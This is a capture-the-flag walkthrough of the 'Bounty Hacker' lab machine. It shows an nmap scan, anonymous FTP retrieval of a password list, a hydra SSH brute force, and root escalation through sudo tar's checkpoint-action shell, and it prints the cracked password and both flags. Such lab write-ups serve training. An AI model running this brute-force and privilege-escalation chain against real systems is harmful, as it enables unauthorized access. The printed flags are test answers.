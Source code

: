 1. Scan with `nmap`

```bash
nmap -p- -T4 -sV --min-rate 5000 -o bounty_hunter 10.10.68.134
Starting Nmap 7.93 ( https://nmap.org ) at 2024-08-25 03:44 -03
Nmap scan report for 10.10.68.134
Host is up (0.24s latency).
Not shown: 55529 filtered tcp ports (no-response), 10003 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.33 seconds
```

2. Lets connect to the ftp server with anonymous login

```bash
ftp 10.10.68.134
```

Now once inside ftp, lets remove the passive mode

```
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp>
```

Download bot files with `get <file_name>`

And once in the host cat them

```
[Aug 25, 2024 - 03:51:13 (-03)] exegol-default /workspace # cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
[Aug 25, 2024 - 03:51:15 (-03)] exegol-default /workspace # cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

## Who wrote the task list? 

The task list was written by `lin`.

## What service can you bruteforce with the text file found?

Seeing the task list, we can bruteforce it with `ssh`

## What is the users password?

So the user is `link`

Passwords are in the `lock.txt`

We can do the following `hydra -l lin -P locks.txt ssh://10.10.68.134`

```bash
[22][ssh] host: 10.10.68.134   login: lin   password: RedDr4gonSynd1cat3
```

## User FLAG

```
ssh lin@10.10.68.134
The authenticity of host '10.10.68.134 (10.10.68.134)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.68.134' (ED25519) to the list of known hosts.
lin@10.10.68.134's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}
lin@bountyhacker:~/Desktop$
```

## Root FLAG

```bash
lin@bountyhacker:~$ sudo -l
[sudo] password for lin:
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
/bin/tar: Removing leading `/' from member names
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
#
```

## Links

- https://gtfobins.github.io/gtfobins/tar/